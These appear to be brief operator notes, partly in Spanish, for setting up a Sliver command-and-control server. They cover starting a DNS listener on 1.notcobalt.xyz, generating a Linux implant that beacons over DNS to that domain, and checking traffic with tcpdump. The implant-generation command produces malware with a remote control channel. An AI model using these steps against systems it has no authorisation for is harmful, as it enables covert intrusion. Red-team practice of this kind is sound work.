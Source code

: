 1- lo del dns
2- tmux 
3- /opt/sliver-server

sliver > dns --domains 1.notcobalt.xyz.
sliver > generate --os linux --dns 1.notcobalt.xyz --skip-symbols
root@sliver-sh-0:/home/sliver# tcpdump  -nn port 53

